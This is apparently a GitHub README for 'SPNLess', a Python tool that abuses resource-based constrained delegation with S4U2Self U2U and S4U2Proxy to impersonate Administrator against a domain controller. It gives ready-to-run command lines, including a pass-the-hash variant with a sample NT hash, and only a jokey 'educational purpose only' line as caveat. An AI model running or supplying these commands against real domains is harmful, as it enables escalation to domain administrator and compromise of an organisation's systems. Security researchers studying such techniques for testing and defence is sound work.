

# SPNLess

It can write the RBCD attribute, request an S4U2Self U2U evidence ticket, pivot the controlled user's NT hash to the TGT session key, request S4U2Proxy, and save the final ticket as a ccache.

## Install

```bash
pip install -r requirements.txt
```

## Usage

```bash
python3 SPNLess.py 'domain.local/user:Password123!' -delegate-to 'DC$' -impersonate Administrator -spn cifs/dc.domain.local -dc-ip 10.10.10.10
```

If the RBCD attribute is already set :

```bash
python3 SPNLess.py 'domain.local/user:Password123!' -delegate-to 'DC$' --no-write -impersonate Administrator -spn cifs/dc.domain.local -dc-ip 10.10.10.10
```

With an NT hash :

```bash
python3 SPNLess.py 'domain.local/user' -hashes :fc525c9683e8fe067095ba2ddc971889 -no-pass -delegate-to 'DC$' --no-write -impersonate Administrator -spn cifs/dc.domain.local -dc-ip 10.10.10.10
```

## PoC



## Notes

This technique changes the NT hash of the controlled user during the chain - Restore or rotate the account password after use.

(For educational purpose only btw :) )
